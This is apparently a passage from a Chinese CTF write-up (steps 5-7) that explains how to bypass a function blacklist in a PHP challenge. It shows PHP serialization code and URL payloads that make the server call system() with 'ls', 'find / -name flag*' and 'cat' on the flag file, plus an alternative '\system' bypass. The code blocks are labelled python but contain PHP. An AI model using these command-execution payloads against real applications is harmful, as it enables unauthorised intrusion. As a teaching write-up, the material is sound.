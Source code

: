 ```python
<?php
class Test {
    var $p = "ls";
    var $func = "system";
    }
$test = new Test();
$str = serialize($test);
print($str);
?> 
```

![img](https://img2022.cnblogs.com/blog/2834847/202208/2834847-20220830223439037-1159865422.png)

5、成功绕过黑名单获取到当前的目录信息，那我们就修改下传递的参数，查找下flag的位置信息，payload：func=unserialize&p=O:4:"Test":2:{s:1:"p";s:18:"find+/+-name+flag*";s:4:"func";s:6:"system";} ，结果如下：

序列化代码(序列化之后注意将空格修改为+号，或者采用get方式进行传输）：

```python
<?php
class Test {
    var $p = "find / -name flag*";
    var $func = "system";
    }
$test = new Test();
$str = serialize($test);
print($str);
?> 
```

![img](https://img2022.cnblogs.com/blog/2834847/202208/2834847-20220830224529466-34088818.png)

6、获得flag文件位置信息后，修改传递的参数读取下flag值，payload：func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat+/tmp/flagoefiu4r93";s:4:"func";s:6:"system";} ，结果如下：

序列化代码如下(序列化之后注意将空格修改为+号，或者采用get方式进行传输）：

```python
<?php
class Test {
    var $p = "cat /tmp/flagoefiu4r93";
    var $func = "system";
    }
$test = new Test();
$str = serialize($test);
print($str);
?> 
```

![img](https://img2022.cnblogs.com/blog/2834847/202208/2834847-20220830224934681-1304625878.png)

7、这里补充下另外一种绕过黑名单的方式，第三步中的读取目录信息，可以修改payload：func=\system&p=ls，也可以获得目录信息，结果如下;

![img](https://img2022.cnblogs.com/blog/2834847/202208/2834847-20220830225414092-411832528.png)
